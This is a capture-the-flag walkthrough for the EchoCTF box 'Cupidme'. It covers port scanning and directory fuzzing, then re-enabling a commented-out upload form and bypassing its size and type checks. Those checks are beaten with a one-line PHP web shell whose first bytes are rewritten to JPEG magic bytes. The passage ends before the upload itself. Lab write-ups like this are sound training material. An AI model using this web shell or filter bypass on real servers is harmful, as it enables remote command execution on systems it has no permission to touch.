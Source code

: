 # Box: Cupidme
# Level: Intermediate
# OS: Linux
<hr>

Lets get started

# Recon

## Portscanning

command:```sudo nmap -A 10.0.30.187 -T4  -v -p-```

```
```
From our scan we have only 1 open port, so our enumeration will be focused on that port




# Enumeration 

Navigate to the webpage

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/57455236-6563-4073-9aa1-42af759dead3)

Lets fuzz for directories

command:```ffuf -u "http://10.0.30.187/FUZZ" -w /usr/share/wordlists/dirb/common.txt -e .zip,.sql,.php,.phtml,.bak,.backup```

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/EchoCtf/cupidme]
└─$ ffuf -u "http://10.0.30.187/FUZZ" -w /usr/share/wordlists/dirb/common.txt -e .zip,.sql,.php,.phtml,.bak,.backup

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.0.30.187/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Extensions       : .zip .sql .php .phtml .bak .backup 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

images                  [Status: 301, Size: 185, Words: 6, Lines: 8, Duration: 167ms]
index.php               [Status: 200, Size: 1805, Words: 92, Lines: 2, Duration: 171ms]
index.php               [Status: 200, Size: 1805, Words: 92, Lines: 2, Duration: 547ms]
LICENSE                 [Status: 200, Size: 1075, Words: 152, Lines: 19, Duration: 166ms]
upload.php              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 161ms]
:: Progress: [32305/32305] :: Job [1/1] :: 137 req/sec :: Duration: [0:02:46] :: Errors: 0 ::
```
Navigating to the ```images``` directory I got a ```403 error```. 

Lets navaigate to the ```/upload.php``` directory

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/cf7c2a44-346c-4dbb-884c-3935990b6131)

As you can see we get redirected back to the main page.

Checking the page source,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/9122bbbb-3a8d-4b75-b504-7420ad97032e)

Well, this is the reason why we can't view the ```/upload.php``` directory. The HTML code is commented.

To solve this we have to uncomment that part of the code. We'll be using the developer tools for this

So, right-click and inspect element

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/c16de178-3964-49f4-ae0a-02b2fe8912bf)

Click on that drop down

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/e6c40a03-3e0b-4f8b-9352-3fe8d65917a5)

Click on that also,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/a65d193a-6025-4513-8004-5c1f0382600c)

Good, so our goal is to uncomment that part of the code.

Now, right-click and click on ```Edit As HTML```, we'll be removing the comments ```<!--``` and ```-->```

Doing that should get you this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/76b4abc6-648f-4531-b93c-335f3fbfc383)

As you can see  we can now access the upload button.



# Exploitation

Lets try to upload something, say a ```.jpg``` file

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/4bd42d2a-5f42-447a-9100-8c8b67a0ce91)

oops, the file size supported is 39 bytes. So there's a filter in this upload function

1.Upload a .jpeg file 

2.The maximum size of the .jpeg file must be 39 bytes

These are the 2 filters in the upload function

Reading this [blog](https://null-byte.wonderhowto.com/how-to/bypass-file-upload-restrictions-web-apps-get-shell-0323454/) talks about how to bypass file upload restrictions

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/11b52f62-d434-4baa-b702-fa5e10cebfee)

This is the method we'll be using

payload:```AAAA<?php system($_GET[‘cmd’]); ?>```

Save this in a file ```bankai.php```

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/EchoCtf/cupidme]
└─$ nano bankai.php 
                                                                                                                                                                                                
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/EchoCtf/cupidme]
└─$ cat bankai.php 
AAAA<?php system($_GET[‘cmd’]); ?>
```
Now, this is a php script, what we'll do is change the magic bytes header from a ```.php``` to a ```.jpeg```

To access the magic bytes of the file, we'll use ```hexeditor```

command:```hexeditor bankai.php```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/8a33d3a2-05c8-4b42-8d2f-afc17283ee5c)

We'll be changing that from ```41 41 41 41``` to ```FF D8 FF EE```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/922fd96c-89fc-4e5e-9ce6-6f4f4b22f03d)

To save and exit, hit ```ctrl + x```

```
                                                                                                                                                                                                
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/EchoCtf/cupidme]
└─$ cat bankai.php 
<?php system($_GET[‘cmd’]); ?>
                                                                                                                                                                                                
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/EchoCtf/cupidme]
└─$ file bankai.php   
bankai.php: JPEG image data
```
Good, now lets try to upload this











